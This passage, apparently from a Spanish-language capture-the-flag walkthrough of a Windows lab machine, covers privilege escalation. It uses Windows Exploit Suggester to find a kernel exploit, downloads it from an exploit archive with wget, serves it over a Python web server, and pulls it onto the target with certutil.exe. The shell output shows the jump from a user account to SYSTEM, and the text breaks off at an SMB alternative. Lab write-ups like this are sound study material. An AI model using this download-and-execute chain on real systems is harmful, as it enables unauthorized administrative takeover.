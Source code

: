 ```shell
  wes.py systeminfo.txt --muc-lookup

  Show colored output 
  wes.py systeminfo.txt --color
  wes.py systeminfo.txt -c

  Download latest version of WES-NG
  wes.py --update-wes
```

```shell
> python3 wes.py --update
Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )
[+] Updating definitions
[+] Obtained definitions created at 20230323
> python3 wes.py ../systeminfo.txt -e
```

* Encontramos el siguiente https://www.exploit-db.com/exploits/41020

```shell
> wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
```

Para transferir hay varias maneras de hacerlo yo lo haré de 2 formas

Con un servidor web con python

* Compartimos un servidor web con python

```shell
> python3 -m http.server 80
```

* Descargamos el .exe de nuestro servidor web con **certutil.exe**

```shell
C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://<tu-ip>/red.exe red.exe
```

* Escalamos de privilegios al usuario administrador

```shell
C:\Windows\Temp\Privesc> whoami
whoami
optimum\kostas

C:\Windows\Temp\Privesc> red.exe
red.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\Temp\Privesc> whoami
whoami
nt authority\system
```

Con smbserver
